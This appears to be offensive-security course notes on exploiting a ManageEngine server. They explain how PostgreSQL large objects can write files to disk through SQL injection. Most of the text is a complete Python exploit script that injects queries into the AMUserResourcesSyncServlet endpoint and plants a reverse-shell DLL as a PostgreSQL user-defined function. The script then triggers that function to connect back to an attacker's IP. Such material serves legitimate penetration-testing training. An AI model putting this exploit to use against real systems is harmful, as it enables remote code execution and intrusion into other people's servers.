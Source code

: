 ## Local Network Limitation
Even though we did manage to get a shell on the ManageEngine server, we managed to get it by utilizing a share on the local network.
An alternative to the remote Samba extension loading is to find a method to transfer the malicious DLL to the remote server directly through an SQL query.

## PostgreSQL Large Objects
 PostgreSQL exposes a structure called _large object_, which is used for storing data that would be difficult to handle in its entirety.
 The advantage of large objects lies in the fact that the data they hold can be exported back to the file system as an identical copy of the original imported file.

A large object is created by calling the _lo_import_ function while providing it the path to the file we want to import:

![](../../03.%20Images/t2-ss21.png)

We import the win.ini file to the database and when we list it, we get a loid, of the large object.
This is an integral value to reference while exporting a large object.
It may look arbitrary, however we can control the loid by passing it as a parameter of the lo_import function:

![](../../03.%20Images/t2-ss22.png)

Now, to export the file on to the remote file system, we need the know where large objects are stored in the database.
The large objects are stored in the pg_largeobject table.
Apart from the loid, in the pg_largeobject table, we also need to notice a critical piece of information i.e. the pageno field which defines the page number.
When large objects are imported into a PostgreSQL database, they are split into 2KB chunks, which are then stored individually in the _pg_largeobject_ table.

Moving on, if we choose to see what data is inside our large object entry right after import, we can see it using the data parameter:

![](../../03.%20Images/t2-ss23.png)

We can update this entry, for instance, using the hex value of a string and providing it's loid and pageno value:

![](../../03.%20Images/t2-ss24.png)

Finally, we can export these values to the file system using the lo_import function of PostgreSQL.

![](../../03.%20Images/t2-ss25.png)

## Getting Reverse Shell
We are gonna take the following course of action to get a reverse shell using the large object feature of PostgreSQL:
1. Create a malicious DLL file containing shellcode.
2. Inject a query that creates a large object from an arbitrary remote file(like win.ini).
3. Inject a query that updates page 0 of the newly created large object with the first 2kb of our malicious DLL.
4. Inject more similar queries that insert additional pages of the pg_largeobject table to contain the rest of the malicious DLL file.
5. Inject a query that exports the DLL file to remote file system from the database.
6. Inject a query that creates a custom function in the PostgreSQL database, using the DLL.
7. Inject a query that executes the newly created UDF.

We will use the following python script to do all of that:

```python
import requests, sys, urllib, string, random, time
requests.packages.urllib3.disable_warnings()

# encoded UDF rev_shell dll
udf = 'hex encoded dll file'
loid = 1337

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def delete_lo(url, loid):
   log("[+] Deleting existing LO...")
   sql = "SELECT lo_unlink(%d)" % loid
   make_request(url, sql)

def create_lo(url, loid):
   log("[+] Creating LO for UDF injection...")
   sql = "SELECT lo_import($$C:\\windows\\win.ini$$,%d)" % loid
   make_request(url, sql)
   
def inject_udf(url, loid):
   log("[+] Injecting payload of length %d into LO..." % len(udf))
   for i in range(0,((len(udf)-1)/4096)+1):
         udf_chunk = udf[i*4096:(i+1)*4096]
         if i == 0:
             sql = "UPDATE PG_LARGEOBJECT SET data=decode($$%s$$, $$hex$$) where loid=%d and pageno=%d" % (udf_chunk, loid, i)
         else:
             sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$hex$$))" % (loid, i, udf_chunk)
         make_request(url, sql)

def export_udf(url, loid):
   log("[+] Exporting UDF library to filesystem...")
   sql = "SELECT lo_export(%d, $$C:\\Users\\Public\\rev_shell.dll$$)" % loid
   make_request(url, sql)
   
def create_udf_func(url):
   log("[+] Creating function...")
   sql = "create or replace function rev_shell(text, integer) returns VOID as $$C:\\Users\\Public\\rev_shell.dll$$, $$connect_back$$ language C strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   delete_lo(sqli_url, loid)   
   create_lo(sqli_url, loid)
   inject_udf(sqli_url, loid)
   export_udf(sqli_url, loid)
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

Executing the script:

![](../../03.%20Images/t2-ss26.png)

We get the shell:
![](../../03.%20Images/t2-ss27.png)